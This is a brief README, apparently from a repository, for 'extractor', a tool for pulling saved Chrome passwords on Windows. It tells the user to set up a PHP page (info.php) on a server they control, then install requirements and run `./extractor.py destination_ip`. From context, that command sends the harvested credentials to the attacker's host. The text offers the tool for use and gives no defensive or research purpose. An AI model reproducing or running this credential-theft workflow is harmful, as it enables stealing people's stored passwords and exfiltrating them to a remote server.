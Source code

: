 # extractor
Chrome password extractor for windows

First, set up a php page on a web server you control named info.php
After installing necessary modules with and chmod'ing it with `pip install -r requirements.txt && chmod +x extractor.py`, run with
`./extractor.py destination_ip`
